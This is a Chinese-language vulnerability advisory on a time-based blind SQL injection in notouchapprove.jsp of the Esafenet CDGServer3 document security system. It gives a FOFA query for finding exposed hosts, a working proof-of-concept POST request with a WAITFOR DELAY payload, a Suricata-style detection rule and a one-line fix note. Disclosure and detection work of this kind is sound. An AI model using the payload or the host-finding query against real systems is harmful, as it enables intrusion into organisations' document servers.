

# 亿赛通电子文档安全管理系统 notouchapprove.jsp 存在SQL注入漏洞

亿赛通电子文档安全管理系统 notouchapprove.jsp 存在SQL注入漏洞

# 影响版本

CDGServer3

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   app\="亿赛通-电子文档安全管理系统" || body\="/CDGServer3/index.jsp"

**POC/EXP：**

**step1**  sql注入

```
POST /CDGServer3/client/notouchapprove.jsp;Servicelogin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

id=1'WAITFOR+DELAY'0%3a0%3a5'--
```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"亿赛通电子文档安全管理系统 - notouchapprove.jsp id SQL注入漏洞 (WAITFOR DELAY时间盲注)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/CDGServer3/client/notouchapprove.jsp";
        fast_pattern;
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"id="; nocase;
        content:"WAITFOR"; nocase; distance:0; within:50;
        content:"DELAY"; nocase; distance:0; within:20;
    metadata:
        service http,
        affected_product "亿赛通电子文档安全管理系统",
        vulnerability_type "SQL Injection (Time-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000817;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
